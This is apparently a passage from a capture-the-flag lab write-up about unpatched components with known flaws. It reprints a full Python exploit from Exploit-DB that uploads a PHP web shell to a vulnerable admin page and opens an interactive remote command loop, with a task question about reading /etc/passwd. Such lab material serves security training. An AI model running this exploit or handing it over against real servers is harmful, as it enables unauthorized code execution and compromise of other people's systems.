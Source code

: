 As you can see this would be quite devastating, because it requires very little work on the part of the attacker as often times since the vulnerability is already well known, someone else has made an exploit for the vulnerability. The situation becomes even worse when you realize, that it's really quite easy for this to happen, if a company misses a single update for a program they use, they could be vulnerable to any number of attacks.

Hence, why OWASP has rated this a 3 \(meaning high\) on the prevalence scale, it is incredibly easy for a company to miss an update for an application.

Based on that, in this case we can found an exploit in [exploit-db](https://www.exploit-db.com/) and try to attack the target to get the shell

_**\#1 How many characters are in /etc/passwd \(use wc -c /etc/passwd to get the answer\)**_

Following the guide, I've found a exploit in  [exploit-db](https://www.exploit-db.com/exploits/47887) by searching "Unauthenticated Remote Code Execution" . Then I've got this code then save it as rce.py and run it.

```python
import argparse
import random
import requests
import string
import sys

parser = argparse.ArgumentParser()
parser.add_argument('url', action='store', help='The URL of the target.')
args = parser.parse_args()

url = args.url.rstrip('/')
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
print('> Verifying shell upload...')
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
    launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
    if launch_shell.lower() == 'y':
        while True:
            cmd = str(input('RCE $ '))
            if cmd == 'exit':
                sys.exit(0)
            r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
            print(r.text)
else:
    if r.status_code == 200:
        print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
    else:
        print('> Web shell failed to upload! The web server may not have write permissions.')
```
